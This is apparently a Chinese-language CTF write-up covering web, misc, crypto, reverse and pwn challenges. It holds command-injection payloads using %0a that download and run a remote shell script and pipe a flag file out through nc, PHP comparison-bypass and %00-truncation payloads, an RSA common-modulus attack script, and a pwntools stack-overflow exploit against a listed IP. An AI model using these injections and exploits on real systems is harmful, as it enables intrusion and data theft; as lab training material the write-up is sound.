







本文最后编辑于
web
黑宝石
ping一下试试
不可能的数字
过五关
快准狠
misc
crypto
juSTFoRfun
滴滴答答的凯撒
你认识这个校徽吗
5space-rosb
re
pwn
黑宝石 实训描述:从前没有网络的时候IE叫黑宝石。
ping一下试试
先fuzz。找到%0a没被过滤。然后就可以接下来的操作。自己试了下没弹回来，不晓得是什么原因。
1 2 3 4 5 6 python -m SimpleHTTPServer 8000 cat /FLAG | nc ip port 127.0.0.1%0acurl ip/1.sh > /tmp/1.sh 127.0.0.1%0achmod 777 /tmp/1.sh 127.0.0.1%0ash /tmp/1.sh nc -lvvp port
不可能的数字 ?num=1e9
过五关
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 第一关查看源码，sha1数组类型比较绕过。 payload:name[]=1&password[]=1 第二关需要满足3个条件 1.name\*10=password 2.password小于4位且要大于999 3.name里需要包含admin且不为数字 payload:name=1000admin&password=1e4 第三关需要绕过file_get_contents函数和strcmp函数 php://input伪协议绕过file_get_contents，数组绕过strcmp payload:name=php://input&password[]=1 payload:post传welcome to the SeBaFi 第四关cookie随机生成不可控。所以就把生成的和不输入即可绕过 payload:name=&password= Cookie: PHPSESSID= 第五关是魔改的一题。但应该改坏了，username反正是没有找到 但是后面看源码是可以出来的。一种是直接传数组 password[]=1或者是 %00截断 password=1%00--
快准狠 一个网页内让你数有多少个A，然后提交。而且还要求时间。肯定需要脚本解决
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requests as r url="http://47.114.137.161:49164" ansurl="http://47.114.137.161:49164/count.php" resp=r.get(url) cookie=resp.cookies["PHPSESSID"] cookies={"PHPSESSID":cookie} resp=r.get(url,cookies=cookies) count=0 for i in (resp.text): if i=="A": count+=1 payload={'a_count_post':count-2} rst=r.post(ansurl,data=payload,cookies=cookies) print(rst.text)

LSB!LSB! zsteg -e导出 直接qr扫码就ok了
red_green
1 2 3 4 5 6 一种方法是 zsteg --all zsteg -e 通道 -> out.jpg 第二种直接用 stegsolve->extract preview->红色通道导出


伪加密 修改50 4b 01 02后第5位为偶数即可。保存打开即可
juSTFoRfun 没有太多的信息，就给了一串U2Fsd开头的字符串和题目名。直接拿去des，aes解密，并没有解出来。观察题目名，只有大小写。尝试转成ab的形式，拿去解密培根密码。得到HI。拿去des解密解出一串。观察这一串，发现只有个下划线相关，可能是ascii位移。写个脚本操作一下。解到其他写不到文件的就不行了。然后拿到看起来比较像的一串拿去栅栏得到flag
1 2 3 4 5 6 7 8 encode="Mcj;CLnN_unJms?c<=ibYYlh[lAspc?a@slY_Hmw" f=open('a.txt','w') for i in range(1,120): decode1="" for x in encode: char=ord(x) decode1=decode1+chr(char+i) f.write(decode1+"\n")

滴滴答答的凯撒 得到一个文本，先把换行转成空格，再把16进制转成ascii码。在morse解密，在栅栏得到flag。主要是观察一下。一共就三种形式2e 2d 20
你认识这个校徽吗
题目给了word和一个txt。txt名为base64，内容解密后为Unit。word里图片最后有个图片。拖到010editor里看IEND尾后还有一串奇怪的字符。且word里内容涉及到凯撒密码和维吉尼亚密码。维吉尼亚解密即可获得flag
5space-rosb
题目给了个py，py里有5个变量，n，e1，e2，c1，c2。直接上共模攻击的脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from gmpy2 import * import libnum n = 0xa1d4d377001f1b8d5b2740514ce699b49dc8a02f12df9a960e80e2a6ee13b7a97d9f508721e3dd7a6842c24ab25ab87d1132358de7c6c4cee3fb3ec9b7fd873626bd0251d16912de1f0f1a2bba52b082339113ad1a262121db31db9ee1bf9f26023182acce8f84612bfeb075803cf610f27b7b16147f7d29cc3fd463df7ea31ca860d59aae5506479c76206603de54044e7b778e21082c4c4da795d39dc2b9c0589e577a773133c89fa8e3a4bd047b8e7d6da0d9a0d8a3c1a3607ce983deb350e1c649725cccb0e9d756fc3107dd4352aa18c45a65bab7772a4c5aef7020a1e67e6085cc125d9fc042d96489a08d885f448ece8f7f254067dfff0c4e72a63557 e1 = 0xf4c1158f c1 = 0x2f6546062ff19fe6a3155d76ef90410a3cbc07fef5dff8d3d5964174dfcaf9daa003967a29c516657044e87c1cbbf2dba2e158452ca8b7adba5e635915d2925ac4f76312feb3b0c85c3b8722c0e4aedeaec2f2037cc5f676f99b7260c3f83ffbaba86cda0f6a9cd4c70b37296e8f36c3ceaae15b5bf0b290119592ff03427b80055f08c394e5aa6c45bd634c80c59a9f70a92dc70eebec15d4a5e256bf78775e0d3d14f3a0103d9ad8ea6257a0384091f14da59e52581ba2e8ad3adb9747435e9283e8064de21ac41ab2c7b161a3c072b7841d4a594a8b348a923d4cc39f02e05ce95a69c7500c29f6bb415c11e4e0cdb410d0ec2644d6243db38e893c8a3707 e2 = 0xf493f7d1 c2 = 0xd32dfad68d790022758d155f2d8bf46bb762ae5cc17281f2f3a8794575ec684819690b22106c1cdaea06abaf7d0dbf841ebd152be51528338d1da8a78f666e0da85367ee8c1e6addbf590fc15f1b2182972dcbe4bbe8ad359b7d15febd5597f5a87fa4c6c51ac4021af60aeb726a3dc7689daed70144db57d1913a4dc29a2b2ec34c99c507d0856d6bf5d5d01ee514d47c7477a7fb8a6747337e7caf2d6537183c20e14c7b79380d9f7bcd7cda9e3bfb00c2b57822663c9a5a24927bceec316c8ffc59ab3bfc19f364033da038a4fb3ecef3b4cb299f4b600f76b8a518b25b576f745412fe53d229e77e68380397eee6ffbc36f6cc734815cd4065dc73dcbcb s = gcdext(e1, e2) s1 = s[1] s2 = -s[2] c2 = invert(c2, n) m = (pow(c1,s1,n) * pow(c2 , s2 , n)) % n print(hex(m)) s=hex(m)[2:] result="" for i in range(len(s)//2): result+=chr(int(s[2*i:2*i+2],16)) print(result[:-64])

HelloAndroid
把apk文件拖到_onkey-decompile-apk.bat上，自动反编译。或者用jadx打开

最简单的栈溢出 计算buf到r的位置为8c,又知道bash的地址为0x0804854d，直接就可以写脚本get shell了
1 2 3 4 5 6 7 from pwn import * p=remote("47.114.137.161",49160) payload=0x8c*'a' + p32(0x0804854d) p.recvuntil("please pwn me\n") p.send(payload) p.interactive()
